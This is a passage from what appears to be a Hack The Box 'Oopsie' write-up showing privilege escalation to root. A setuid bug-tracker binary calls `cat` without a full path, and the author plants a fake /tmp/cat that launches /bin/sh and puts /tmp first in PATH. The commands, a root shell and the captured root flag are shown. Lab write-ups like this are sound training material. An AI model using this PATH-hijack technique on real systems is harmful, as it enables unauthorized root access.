 **Vulnerability:** It only uses `cat` (without the full path to the executable). 
- Navigate to the `/tmp` directory and create a file named `cat` with the following content: `/bin/sh`
- Make sure to `chmod` that file so it's executable.

**Exploit:** Add the /tmp directory to the PATH environmental variable.
- Command: `export PATH=/tmp:$PATH`
- Check: `echo $PATH`
- Result: `\tmp` is first so it will be searched first for commands w/o a path provided.
```
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
- Run the bugtracker, input whatever you want, and it should execute our `/tmp/cat` and give us a root shell.
```
robert@oopsie:/usr/bin$ ./bugtracker
------------------
: EV Bug Tracker :
------------------
Provide Bug ID: x
x
---------------
# whoami
root
```

## Root Flag
```
# cd /root
# ls
reports  root.txt
# cat root.txt      # PROBLEM: It gave me a root shell... need full path to cat...
# /bin/cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/b43b938f-b0f5-4261-ac56-ffcc308d7328)

[link to pwn cert](https://www.hackthebox.com/achievement/machine/172151/288)



